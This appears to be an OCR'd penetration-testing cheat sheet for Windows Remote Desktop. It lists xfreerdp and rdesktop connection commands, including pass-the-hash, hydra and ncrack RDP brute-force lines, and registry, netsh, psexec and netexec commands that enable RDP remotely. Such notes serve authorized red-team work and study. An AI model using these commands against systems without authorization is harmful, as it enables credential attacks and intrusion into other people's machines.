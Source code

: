 ## Remote desktop access
- `xfreerdp /u:[domain]\[username] /p:[password] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `xfreerdp /u:[domain]\[username] /pth:[hash] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `rdesktop -d [domain] -u [username] -p [password] [host]`

### Brute Force
- `hydra -l [username] -P [wordlist] -s [port] rdp://[host]`
- `ncrack -vv --user Administrator -P /root/passwords.txt rdp://10.10.10.10`

### Enable RDP
- `PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f`
- `PS C:\> netsh firewall set service remoteadmin enable`
- `PS C:\> netsh firewall set service remotedesktop enable`

#### Alternative
- `C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0`
- `kali@user$ netexec 10.10.10.10 -u username -H hashtext -M rdp -o ACTION=enable`
